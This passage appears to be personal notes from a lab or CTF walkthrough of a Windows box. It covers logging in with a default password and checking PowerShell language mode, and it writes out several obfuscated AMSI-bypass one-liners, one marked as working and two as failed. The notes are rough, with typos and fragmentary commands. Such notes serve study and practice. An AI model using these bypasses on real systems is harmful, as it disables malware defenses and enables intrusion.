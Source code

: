 Be throughout! - Missed the Password and PSWA intel - `Password1!`

![](loginexiftoolrequired.png)

## Initial Access

EDavies is the holder of the fine default password `Password1!`

![](pswainit.png)

Contrained language mode enumeration - Constrain users to core type, prevent all the good powershell.
```powershell
$ExecutionContext.SessionState.LanguageMode
# FullLanguage == Good 
```

Most recent versions of Windows **DOES NOT HAVE POWERSHELL v2**
![](amsibypasscheck.png)

The  bypass Al used threw this error
![](thisbypassfailed.png)

If patched, just change up the strings/variables. https://github.com/sinfulz/JustEvadeBro
```powershell
# Enumerate AMSI
$str = 'amsiinitfailed'
# Bypass with:
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
# Check AMSI
$str = 'amsiinitfailed'
```

Tried these and failed:
```powershell
# Failed
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
# Failed
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

![](amsibypassmyself.png)

Weird directory pointed out be a member of the stream:
![](weirdutilsdirectoranddeskopini.png)
